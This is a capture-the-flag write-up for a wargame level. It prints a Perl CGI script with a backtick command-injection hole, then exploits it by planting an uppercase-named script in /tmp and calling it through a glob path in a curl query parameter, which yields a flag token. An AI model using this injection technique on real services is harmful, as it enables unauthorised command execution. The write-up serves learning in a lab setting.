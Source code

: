 # level12 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file ` level12.pl `

```
$ ls
> level12.pl
```

As level04, it's a <a href="https://fr.wikipedia.org/wiki/Perl_(langage)">Perl</a> file, so we decide to check what he contain.

```
$ cat level12.pl  
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

With that we can see 4 important elements :

```
- localhost:4646 -> url, so we can try to call the website with curl

- n(t(param("x"), param("y"))); -> parameters who can contain a value

- $xx = $_[0];			|	  First parameter (x) will be transform
  $xx =~ tr/a-z/A-Z/;	| ->  to uppercase and 
  $xx =~ s/\s.*//;		|	  remove spaces

- @output = `egrep "^$xx" /tmp/xd 2>&1`; -> will be breakable with a code injection cause of ` character
```

According to elements, we should make an injection using an uppercase file (read permisssion) who write ```getflag``` return value on another file

```
$ echo "getflag > /tmp/flag" > /tmp/GET
$ chmod 777 /tmp/GET
```

Ok let's do this

```
$ curl 127.0.0.1:4646?x='`/*/GET`'
> ..
$ cat /tmp/flag
> Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level11">previous level</a> - <a href="../../level13">next level</a>
